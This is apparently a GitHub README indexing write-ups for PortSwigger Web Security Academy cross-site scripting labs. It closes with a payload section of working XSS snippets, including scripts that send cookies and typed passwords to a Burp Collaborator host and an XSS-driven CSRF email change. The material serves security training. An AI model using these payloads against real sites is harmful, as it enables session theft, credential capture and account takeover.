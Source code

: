 # [Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)

## Lab

- Reflected XSS:
  - apprentice:
    - [1. Reflected XSS into HTML context with nothing encoded](./lab/1.%20Reflected%20XSS%20into%20HTML%20context%20with%20nothing%20encoded.md)
    - [7. Reflected XSS into attribute with angle brackets HTML-encoded](./lab/7.%20Reflected%20XSS%20into%20attribute%20with%20angle%20brackets%20HTML-encoded.md)
    - [9. Reflected XSS into a JavaScript string with angle brackets HTML encoded](./lab/9.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20HTML%20encoded.md)
  - practitioner:
    - [17. Reflected XSS into HTML context with most tags and attributes blocked](./lab/17.%20Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked.md)
    - [18. Reflected XSS into HTML context with all tags blocked except custom ones](./lab/18.%20Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones.md)
    - [19. Reflected XSS with some SVG markup allowed](./lab/19.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed.md)
    - [20. Reflected XSS in canonical link tag](./lab/20.%20Reflected%20XSS%20in%20canonical%20link%20tag.md)
    - [21. Reflected XSS into a JavaScript string with single quote and backslash escaped](./lab/21.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote%20and%20backslash%20escaped.md)
    - [22. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](./lab/22.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20escaped.md)
    - [24. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](./lab/24.%20Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets%2C%20single%2C%20double%20quotes%2C%20backslash%20and%20backticks%20Unicode-escaped.md)
- Stored XSS:
  - apprentice:
    - [2. Stored XSS into HTML context with nothing encoded](./lab/2.%20Stored%20XSS%20into%20HTML%20context%20with%20nothing%20encoded.md)
    - [8. Stored XSS into anchor href attribute with double quotes HTML-encoded](./lab/8.%20Stored%20XSS%20into%20anchor%20href%20attribute%20with%20double%20quotes%20HTML-encoded.md)
  - practitioner:
    - [23. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](./lab/23.%20Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped.md)

- DOM-based XSS:
  - apprentice:
    - [3. DOM XSS in document.write sink using source location.search](./lab/3.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search.md)
    - [4. DOM XSS in innerHTML sink using source location.search](./lab/4.%20DOM%20XSS%20in%20innerHTML%20sink%20using%20source%20location.search.md)
    - [5. DOM XSS in jQuery anchor href attribute sink using location.search source](./lab/5.%20DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20location.search%20source.md)
    - [6. DOM XSS in jQuery selector sink using a hashchange event](./lab/6.%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashchange%20event.md)
  - practitioner:
    - [10. DOM XSS in document.write sink using source location.search inside a select element](./lab/10.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search%20inside%20a%20select%20element.md)
    - [11. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](./lab/11.%20DOM%20XSS%20in%20AngularJS%20expression%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded.md)
- practitioner:
  - [12. Reflected DOM XSS](./lab/12.%20Reflected%20DOM%20XSS.md)
  - [13. Stored DOM XSS](./lab/13.%20Stored%20DOM%20XSS.md)
  - [14. Exploiting cross-site scripting to steal cookies](./lab/14.%20Exploiting%20cross-site%20scripting%20to%20steal%20cookies.md)
  - [15. Exploiting cross-site scripting to capture passwords](./lab/15.%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords.md)
  - [16. Exploiting XSS to perform CSRF](./lab/16.%20Exploiting%20XSS%20to%20perform%20CSRF.md)

## payloads

auto resize:

 ```html
<iframe src="https://id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width=1>
```

script to steal cookies:

```js
<script>
fetch('https://collaborator', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

script to capture password:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

script to csrf:

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

## References

cheatsheet: <https://portswigger.net/web-security/cross-site-scripting/cheat-sheet>
